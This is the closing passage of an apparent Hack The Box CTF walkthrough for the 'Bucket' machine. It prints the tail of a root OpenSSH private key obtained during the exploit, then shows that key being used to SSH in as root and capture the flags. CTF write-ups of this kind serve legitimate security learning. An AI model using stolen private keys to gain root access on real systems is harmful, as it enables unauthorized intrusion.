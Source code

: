 ```
AMEAlZDX+sRb4BUkEYVpg2n/GV8Gvg251ZCRMfNbwERwzeZ6uf92ec05QLfTKHyhgZ8wB9
nPyPo1Kg/VEK3Q0juEjwiB0PybH9Wl2TrSquc16d2sUwWJrkqlIcTplX5WMFdwsOj0l5S3
44SjSdBcQ1FhsjUf7yTAdHHX/IDw/E9/7n8A1I38RAP6ipJYfL61Pi7KRpOruW77YBh7zE
4IoDjNCFiM4wGBjaQSvMTWkAuXC8NwOFXYNKlmNQSbqwloEt2nAAAAwQDj0IOrXsXxqZl7
fszTTPNaNB+e+Kl1XQ6EkhH48gFVRnFPLCcJcx/H5uEHBtEXRuYaPkUyVt85h4e1qN6Ib/
qBzKKVLEX+dNXdW2eCUBZw36kaXxsUQTQ4yHgdmKuHfKb/CYkLLRxksiNGJ7ihgo9cCmpG
KZs9p2b4kH/cF8+BFjI05Jr4z6XetJoRgFMwPDImGkrhQ6KbGRrHFeyxFzIW/fho72gYWi
ZhpVP0sGJN6uKIvg9p4SD6X8JBdwCtTP8AAADBAOBYuz8OdgDKw5OzZxWeBq80+n0yXUeZ
EtZFCf5z4q4laryzqyyPxUEOPTxpABbmnQjOq6clMtTnJhgAf/THSKnsGb8RABLXG/KSAh
pHoTvd81++IRB1+g6GGy0gq/j0Tp+g3e0KLtvr7ZfAtutO8bcDrLjHu6Wqyl1KoleFsv6/
lt0oT70NTv2gFGWAb6WHLEByEsnYQwk5ynbIblaApQSZEyVEPkf9LmO7AEb08lvAOS0dQ1
xMyLerif0cNjmemwAAAAtyb290QHVidW50dQECAwQFBg== 
-----END OPENSSH PRIVATE KEY-----
```

We will need to change the permissions before we can use it.

``` bash
chmod 600 key
```

And now we should be able to SSH to the machine as the root user by passing it the key.

``` bash
ssh -i key root@bucket.htb
```

Success! This works and we now have access to both the user and root flags!

![](/assets/images/htb-bucket/21_bucket_root_flag.png)

## Conclusion
I thought this machine was awesome! This is especially true since I have been studying up on AWS a lot lately. I had not started in on the AWS CLI prior to needing to research it for this machine. I am really glad that I got the opportunity to learn to use it while playing a CTF. The majority of my time spent on this machine was spent reading AWS documentation. This is not exactly an exciting way to spend a full day for most, but for me it was a blast! Another excellent machine!

If you felt my walkthrough helped you, please take a couple of seconds to visit my [HTB Profile](https://www.hackthebox.eu/home/users/profile/271618) and tap that respect button. Also, if you would like to receive a notice of new walkthroughs being posted, follow me on [Twitter](https://twitter.com/IdiotHackerEB). If you have any questions or run into any problems as you walk through this, please feel free to reach out to me on Twitter or Discord (idiothacker). Have fun hacking!